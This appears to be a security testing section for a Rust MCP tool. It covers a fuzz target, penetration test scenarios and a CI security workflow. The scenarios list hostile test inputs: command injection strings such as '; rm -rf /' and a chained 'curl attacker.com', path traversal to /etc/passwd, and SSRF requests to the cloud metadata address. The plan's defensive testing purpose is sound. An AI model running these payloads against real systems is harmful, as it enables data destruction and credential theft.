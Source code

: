 **Fuzzing targets:**
```rust
#[cfg(fuzzing)]
fuzz_target!(|data: &[u8]| {
    if let Ok(s) = std::str::from_utf8(data) {
        let _ = validate_alias(s);
        let _ = validate_url(s);
        let _ = parse_citation(s);
    }
});
```

### Penetration Testing

**Test scenarios:**

1. **Command Injection Attempts:**
   - Special characters in alias: `; rm -rf /`
   - Command chaining in URLs: `http://evil.com/llms.txt; curl attacker.com`
   - Shell metacharacters: `$(whoami)`, `` `id` ``

2. **Path Traversal:**
   - Directory traversal in alias: `../../../etc/passwd`
   - Symlink attacks in storage directory
   - Windows path variations: `C:\Windows\System32`

3. **SSRF Exploitation:**
   - Internal service discovery: `http://169.254.169.254/latest/meta-data/`
   - Port scanning: `http://127.0.0.1:22`, `http://127.0.0.1:3306`
   - DNS rebinding attacks

4. **Resource Exhaustion:**
   - Large file downloads via malicious URLs
   - Rapid blz_add_source operations
   - Deeply nested JSON in llms.txt

5. **Input Fuzzing:**
   - Oversized parameters (alias, URL, query)
   - Unicode edge cases (zero-width, RTL, etc.)
   - Malformed citations: `:::`, `source:`, `:100-200`

### Security Regression Testing

**Continuous integration checks:**

```yaml
# .github/workflows/security.yml
- name: Security Audit
  run: |
    cargo audit
    cargo clippy --all-targets -- -D warnings

- name: Run Security Tests
  run: |
    cargo test -p blz-mcp --lib -- --test-threads=1
    cargo test -p blz-mcp security  # Tag security-specific tests
```

---